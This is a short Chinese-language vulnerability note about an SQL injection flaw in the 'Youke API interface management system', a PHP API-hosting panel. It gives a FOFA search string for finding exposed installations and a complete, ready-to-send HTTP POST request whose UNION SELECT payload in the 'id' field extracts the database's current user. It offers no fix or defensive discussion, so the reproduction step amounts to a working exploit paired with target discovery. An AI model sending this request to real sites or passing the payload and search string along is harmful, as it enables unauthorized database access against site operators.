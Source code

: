 # 优客API接口管理系统存在SQL注入漏洞

# 一、漏洞简介
优客API接口管理系统，内置30+API接口，支持服务器信息，网站ICP备案，抖音无水印，QQ在线状态QQ头像，获取历史上的今天，IP签名档，ICO站标获，随机动漫图，网站标题获取，爱站权重获取，城市天气获取，随机一言，皮皮虾无水印，每日Bing壁纸，垃圾分类，查询手机号归属地，申通快递查询等接口功能。优客API接口管理系统存在SQL注入漏洞

# 二、影响版本
+ 优客API接口管理系统

# 三、资产测绘
+ fofa

```plain
"public/static/index/css/flaghome.css"
```

+ 特征

![1731383630664-4e1345d0-9673-4677-bcc6-1ca61d9895ab.png](./img/TRHl7koVp2Qt2mXm/1731383630664-4e1345d0-9673-4677-bcc6-1ca61d9895ab-780835.png)

# 四、漏洞复现
```plain
POST /index/index/doc HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Connection: close

id=') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(IFNULL(CAST(CURRENT_USER() AS NCHAR),0x20)),NULL-- -
```

![1731383899209-0422239d-a29b-46dd-8538-6b6be399667b.png](./img/TRHl7koVp2Qt2mXm/1731383899209-0422239d-a29b-46dd-8538-6b6be399667b-371311.png)



> 更新: 2024-11-27 10:00:07  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xphkgwr0lgod5047>